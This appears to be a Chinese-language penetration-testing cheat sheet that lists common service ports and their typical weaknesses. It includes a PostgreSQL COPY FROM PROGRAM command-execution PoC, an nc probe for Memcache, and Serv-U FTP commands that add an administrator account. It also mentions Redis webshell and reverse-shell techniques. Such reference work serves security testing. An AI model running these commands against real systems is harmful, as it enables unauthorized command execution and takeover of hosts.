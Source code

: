 **5432 端口（ PostgreSQL）**

```text
安全漏洞：弱口令、高权限命令执行
利用方式：攻击者通过弱口令获取账号信息，连入postgres中，可执行系统命令。
PoC参考：    
DROP TABLE IF EXISTS cmd_exec;    
CREATE TABLE cmd_exec(cmd_output text);    
COPY cmd_exec FROM PROGRAM 'id';    
SELECT * FROM cmd_exec;
```

**5984 端口（CouchDB）**

```text
安全漏洞：垂直权限绕过、任意命令执行
利用方式：通过构造数据创建管理员用户，使用管理员用户登录，构造恶意请求触发任意命令执行。
后台访问：http://<target>:5984/_utils
```

**6379 端口（Redis）**

```text
安全漏洞：未授权访问
利用方式：绝对路径写webshell 、利用计划任务执行命令反弹shell、公私钥认证获取root权限、主从复制RCE等。
```

**9200 端口（elasticsearch）**

```text
安全漏洞：未授权访问、命令执行
检测方式：
1、直接访问如下url，获取相关敏感信息。  
http://<target>:9200/_nodes
查看节点数据  http://<target>:9200/_river  查看数据库敏感信息
2、通过构造特定的数据包，执行任意命令。
```

**11211 端口（MemCache）**

```text
安全漏洞：未授权访问
检测方式：无需用户名密码，可以直接连接memcache 服务的11211端口。
nc -vv <target> 11211
```

**27017 端口（Mongodb）**

```text
安全漏洞：未授权访问、弱口令
利用方式：未授权访问/弱口令，远程连入数据库，导致敏感信息泄露。
```

### **4、常见协议端口**

**21 端口（FTP\)**

```text
安全漏洞：
1、配置不当    
2、明文传输    
3、第三方软件提权
利用方式：
1、匿名登录或弱口令
2、嗅探ftp用户名和密码
3、Serv-U权限较大的账号可导致系统命令执行。
FTP提权命令：  
# 增加系统用户   
Quote site exec net user 4567 4567 /add  
# 提升到管理员权限   
Quote site exec net localgroup administrators 4567 /add
```